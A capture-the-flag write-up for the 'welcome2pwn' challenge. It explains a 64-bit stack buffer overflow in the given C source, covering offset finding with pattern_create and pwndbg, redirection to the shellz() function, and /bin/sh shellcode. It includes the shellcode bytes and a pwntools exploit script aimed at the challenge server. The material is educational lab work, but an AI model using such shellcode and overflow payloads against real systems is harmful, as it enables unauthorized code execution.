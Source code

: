 # welcome2pwn

### Code Analysis

Starting off, we will use *checksec* to look at the properties of this binary. Since NX is enabled, we are unable to execute shellcode and will have to find another way to exploit this script.

​![image](assets/image-20240312085524-8c2p1iw.png)​

```C
// Welcome.c

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>

char stuff[0x100];
char * code;

void shellz(void) {
    printf("Here's your shell!\n");
    memcpy(code, stuff, 0x100); 
    typedef void (*func_t)(void);
    ((func_t)code)();
}

int main(void) {
    char buf[0x100];
  
    // Ignore this
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    code = mmap(NULL, 8192, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);
  
    printf("Welcome to pwn!\n");
    printf("Show me a cool exploit technique!\n");
    printf(">> ");
    fgets(stuff, 0x100, stdin);
    printf("Now tell me where to go: \n");
    printf(">> "); 
    fgets(buf, 0x200, stdin);
    return 0;
}
```

As shown above, there is a function shellz() that we can potentially point the EIP to. From analysing the code above, there are two fgets() function that supposedly take user input. However, *char stuff[0x100];*  is declared outside of the main function, making it a global variable and unable to be overflowed as it's not allocated on the stack.

​`python -c "print('A' * 310)"`​

Hence, we will try to overflow the second input instead. As shown below, we are met with a segmentation fault error, showing us the binary is susceptible to BOF.

​![image](assets/image-20240312091332-ow01go0.png)​

Further analysing the code:  
***memcpy(code, stuff, 0x100);***  copies the memory from the "stuff" buffer into a memory block known as "code".  
***typedef void (*func_t)(void);***  defines a function pointer type which is expected to point to a function that takes no arguments ('void') and returns nothing ('void)  
 **((func_t)code)();**  converts the memory block "code" to a function pointer of type "func_t". The function is then called and is pointed by the function pointer "code". As mentioned above, the function takes no arguments and returns nothing.

Hence, we will input "stuff" with shellcode to cat flag.txt (example), overflow the buffer and point the EIP to shellz(), effectively running our code!.  
​![image](assets/image-20240312092609-3jd722z.png)![image](assets/image-20240312093146-qixitfc.png)​

### Pattern Creation and Fuzzing

To start off, I will create a pattern using metasploit's pattern_create.rb. I will now use pwndbg to debug the application. As shown below, 300 characters was enough to cause a segmentation fault.

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300 > pattern.txt
```

​![image](assets/image-20240312093856-2owhzyb.png)​

​![image](assets/image-20240312093929-6ljccz6.png)​

​![image](assets/image-20240312093950-qldf18x.png)​

### Finding Offset and Controlling Instruction Pointer

As shown above, the RBP (base pointer) points to 'i5Ai6Ai7'. Finding that string from our pattern_create, we can see that the string length would be 264 characters. This means that 264 characters is the **offset** needed to <u>overflow the buffer and write over the RBP</u>. As the architecture is 64-bit, we will add 8 more characters for a total of 272 characters to overwrite the RIP (Instruction Pointer).

​![image](assets/image-20240312094406-cv4v32b.png)​

​![image](assets/image-20240312094459-84ppuyg.png)​

We will now create a new payload with 256 characters being 'A', 8 characters being 'B', and another 8 characters as 'C'. As shown below, the RIP register has been completely filled with '43' (C) and the RBP register has completely been filled with '42' (B). Hence, we now control the Instruction Pointer!

```
python -c "print('A' * 256 + 'B' * 8 + 'C' * 8)"
```

​![image](assets/image-20240312095337-uqlzy0h.png)​

​![image](assets/image-20240312095854-fadp9hm.png)​

Using **info functions** in pwndbg, I managed to find the address of shellz(), 0x0000000000401166. **info address shellz** can also be used, just remember to add enough 0s to form a 16-bit address.

​![image](assets/image-20240312100215-lgd1d9s.png)![image](assets/image-20240312100447-hewzkor.png)​

Since the binary uses x86-64 architecture, we will have to apply little endian to the address, 0x6611400000000000 or \x66\x11\x40\x00\x00\x00\x00\x00

​![image](assets/image-20240312100619-rzcjnug.png)​

We will know get our shellcode for the "stuff" buffer as mentioned above. I used a shellcode that executes /bin/sh from shell-storm.org

\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05

​![image](assets/image-20240312113837-bdu1kbe.png)​

Now, we will echo out our final payload to overflow the buffer with.

```
python -c "print('A' * 256 + 'B' * 8 + '\x66\x11\x40\x00\x00\x00\x00\x00')"
```

​![image](assets/image-20240312113905-cwvqto1.png)​

Unfortunately, the output does not come out nicely on the terminal. Hence, we will have to use a script to send our payload instead. I will be using Python's pwntools due to how convenient it is.

```python
# BOF Script. Replace proc=process and proc=remote for local and remote use respectively
from pwn import *

# For Local testing
proc = process("./welcome")

# For actual flag challenge use this (since binary hosted remotely)
proc = remote('chal1.lagncra.sh', 8405)
elf = ELF("./welcome")

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'.rstrip()

proc.sendline(shellcode) ## proc.sendline lets you send whatever you want to the binary

padding = 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x66\x11\x40\x00\x00\x00\x00\x00'.rstrip()

## figure out how to get the address of the shellz function!
#rip = p64(0x401166) 
## Note that the p64 function converts the order of your bytes to little endian

#payload = padding + rip
payload = padding

#print(payload)

proc.sendline(payload)
proc.interactive() ## Open an interactive session
proc.close()
```

​![image](assets/image-20240312113741-wu6g32y.png)​

​![image](assets/image-20240312113753-dgmr8mz.png)​

Flag: LNC24{C0MPU73R_G0_brRrRRrRRRRRRrrRrRRRrRrRrRRrRRrRRRRRrRrR}

---

### References:

* https://kaligulaarmblessed.github.io/challenges/lnc4-welcome2pwn/
* https://www.youtube.com/watch?v=6sUd3AA7Q50
* <u>Shellcode:</u>

  * https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow
  * http://shell-storm.org/shellcode/files/shellcode-806.html
  * https://shell-storm.org/shellcode/index.html
  * https://2h3ph3rd.medium.com/basic-shellcode-exploitation-1e9ff274a194
* Future Study Materials:

  * https://pwn.college/

    https://guyinatuxedo.github.io/

    https://ropemporium.com/

    https://crackmes.one/

‍
